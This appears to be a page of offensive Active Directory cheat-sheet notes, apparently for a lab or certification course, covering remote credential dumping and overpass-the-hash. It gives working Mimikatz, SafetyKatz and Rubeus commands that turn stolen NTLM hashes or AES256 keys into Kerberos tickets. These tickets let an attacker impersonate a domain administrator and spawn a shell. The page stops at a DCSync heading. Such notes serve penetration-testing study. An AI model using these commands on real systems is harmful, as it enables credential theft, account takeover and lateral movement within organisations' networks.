 ### Remote Credential Dumping

From a **Linux** machine, you can use:

* **Impacket** for remote credential extraction.
* **Physmem2profit** for memory analysis and credential retrieval.

***

After exactring credentials we can use: Pass-the-Hash / Pass-the-Ticket / OverPass-The-Hash

## OverPass-The-Hash (Pass-the-Key)

OverPass-The-Hash (OPTH) that allows attackers to generate authentication tokens from NTLM hashes or Kerberos keys. It needs administrator right using Mimi/Safety-Katz and no elevation using Rubeus.

In the case of Pass-The-Hash it's necessary to read NTLM hash and use it to authenticate 'as a password' using local users credentials (eg. local administrator of machine), while OverPass-The-Hash uses NTLM or AES Key to obtain TGT Kerberos and authenticate on the system using domain users credentials (usually spawning a new powershell session).

### Invoke-Mimikatz

To perform OPTH with **AES256 encryption**:

```powershell
Invoke-Mimikatz -Command "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"
```

### SafetyKatz

```powershell
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe"
```

This starts a PowerShell session with **logon type 9** (equivalent to `runas /netonly`).

### Rubeus (Kerberos-focused Attack)

For OPTH using **NTLM hashes** **(doesn’t require elevation)**:

```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

For OPTH with **AES256 encryption** **(requires elevation)**:

```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

***

## DCSync Attack (Extracting Credentials from the Domain Controller)
